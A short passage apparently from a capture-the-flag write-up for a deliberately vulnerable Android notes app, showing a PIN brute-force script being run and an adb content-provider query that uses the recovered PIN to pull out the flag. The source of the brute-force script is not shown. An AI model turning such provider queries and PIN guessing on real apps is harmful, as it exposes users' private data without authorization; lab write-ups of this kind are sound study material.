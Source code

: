 Then run it:
`$ python snpin_force.py`
![[SN_Flag.png]]

`$ adb shell "content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin=2580"`
```
Row: 0 Secret=CTF{D1d_y0u_gu3ss_1t!1?}
```